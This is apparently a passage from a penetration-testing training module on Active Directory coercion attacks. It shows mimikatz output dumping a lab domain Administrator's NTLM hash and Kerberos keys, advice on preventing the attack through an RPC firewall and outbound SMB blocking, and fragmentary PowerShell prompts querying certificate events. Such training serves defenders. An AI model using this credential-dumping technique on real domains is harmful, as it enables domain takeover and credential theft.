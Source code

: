 ```PowerShell
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz # exit
Bye!
```

## Prevention

Windows does not offer granular visibility and control over RPC calls to allow discovering what is being used and block certain functions. Therefore, an out-of-the-box solution for preventing this attack does not exist currently. However, there are two different general approaches to preventing coercing attacks:

1. Implementing a third-party RPC firewall, such as the one from [zero networks](https://github.com/zeronetworks/rpcfirewall), and using it to block dangerous RPC functions. This tool also comes up with an audit mode, allowing monitoring and gaining visibility on whether business disruptions may occur by using it or not. Moreover, it goes a step further by providing the functionality of blocking RPC functions if the dangerous `OPNUM` associated with coercing is present in the request. (Note that in this option, for every newly discovered RPC function in the future, we will have to modify the firewall's configuration file to include it.)
2. Block Domain Controllers and other core infrastructure servers from connecting to outbound ports `139` and `445`, `except` to machines that are required for AD (as well for business operations). One example is that while we `block general outbound traffic` to ports `139` and `445`, we still should allow it for cross Domain Controllers; otherwise, domain replication will fail. (The benefit of this solution is that it will also work against newly discovered vulnerable RPC functions or other coercing methods.)


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *